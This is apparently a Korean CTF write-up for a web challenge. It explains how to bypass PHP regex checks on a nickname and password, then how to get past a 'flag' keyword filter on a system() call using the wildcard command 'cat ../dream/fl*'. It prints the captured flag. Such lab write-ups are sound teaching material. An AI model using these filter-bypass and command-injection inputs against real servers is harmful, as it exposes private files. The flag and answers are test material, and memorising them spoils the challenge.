


## 풀이



보아하니 적절한 Nickname과 Password를 알아내야 할 것 같다.
php 코드 파일을 확인해보자.

```php
if (preg_match("/[a-zA-Z]/", $input_pw)) {
    echo "alphabet in the pw :(";
  }
  else{
    $name = preg_replace("/nyang/i", "", $input_name);
    $pw = preg_replace("/\d*\@\d{2,3}(31)+[^0-8\"]\!/", "d4y0r50ng", $input_pw);
    
    if ($name === "dnyang0310" && $pw === "d4y0r50ng+1+13") {
```

정규표현식을 해석하고 난 후, 다음과 같이 정리할 수 있다.

- Nickname이 요구하는 값은 dnyang0310이고, nyang, nYaNg 등은 공백으로 대체된다.
- Password에서 요구하는 값은 d4y0r50ng+1+13이고, 알파벳을 입력하면 안된다.

Nickname에는 dnynyangang0310을, Password에는 1@111319!+1+13등을 입력하면 Step 2로 넘어갈 수 있다.



마찬가지로 php 코드 파일을 확인해보자.

```php
// cmd filtering
else if (preg_match("/flag/i", $cmd)) {
  echo "<pre>Error!</pre>";
}
else{
  echo "<pre>--Output--\n";
  system($cmd);
  echo "</pre>";
}
```

리눅스 cmd에 입력하는 것처럼 커맨드를 입력하면 실행되는 구조이다.

단, 커맨드에 flag가 포함되면 안되므로 다음과 같이 입력하면 된다.

```
cat ../dream/fl*
```

다음과 같은 결과가 출력된다.

```
--Output--
DH{ad866c64dabaf30136e22d3de2980d24c4da617b9d706f81d10a1bc97d0ab6f6}
```